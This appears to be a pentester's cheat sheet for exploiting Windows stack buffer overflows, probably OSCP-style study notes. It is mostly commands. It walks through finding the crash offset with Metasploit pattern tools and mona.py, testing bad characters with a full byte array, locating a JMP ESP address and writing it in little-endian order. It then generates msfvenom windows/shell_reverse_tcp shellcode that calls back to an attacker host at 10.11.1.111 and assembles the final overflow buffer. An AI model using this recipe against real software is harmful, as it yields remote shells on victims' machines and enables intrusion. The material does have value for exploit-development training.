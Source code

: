 ## BOF

```
# BASIC GUIDE
1. Send "A"*1024
2. Replace "A" with /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l LENGTH
3. When crash "!mona findmsp" (E10.11.1.111 offset) or ""/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q TEXT" or "!mona pattern_offset eip"
4. Confirm the location with "B" and "C"
5. Check for badchars instead CCCC (ESP):
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10" "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20" "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30" "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40" "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50" "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60" "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70" "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80" "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90" "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0" "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0" "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0" "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0" "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0" "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0" "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
with script _badchars.py and
"!mona compare -a esp -f C:\Users\IEUser\Desktop\badchar_test.bin"
	5.1 AWESOME WAY TO CHECK BADCHARS (https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/):
		a. !mona config -set workingfolder c:\logs\%p
	    b. !mona bytearray -b "\x00\x0d"
	    c. Copy from c:\logs\%p\bytearray.txt to python exploit and run again
	    d. !mona compare -f C:\logs\%p\bytearray.bin -a 02F238D0 (ESP address)
	    e. In " data", before unicode chars it shows badchars.
 6. Find JMP ESP with "!mona modules" or "!mona jmp -r esp" or "!mona jmp -r esp -cpb '\x00\x0a\x0d'" find one with security modules "FALSE"

	6.1 Then, "!mona find -s "\xff\xe4" -m PROGRAM/DLL-FALSE"
	6.2 Remember put the JMP ESP location in reverse order due to endianness: 5F4A358F will be \x8f\x35\x4a\x5f


7. Generate shellcode and place it:
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.1.111 LPORT=4433 -f python –e x86/shikata_ga_nai -b "\x00"

msfvenom -p windows/shell_reverse_tcp lhost=10.11.1.111 lport=443 EXITFUNC=thread -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai -f python -v shellcode

8. Final buffer like:
buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode

```


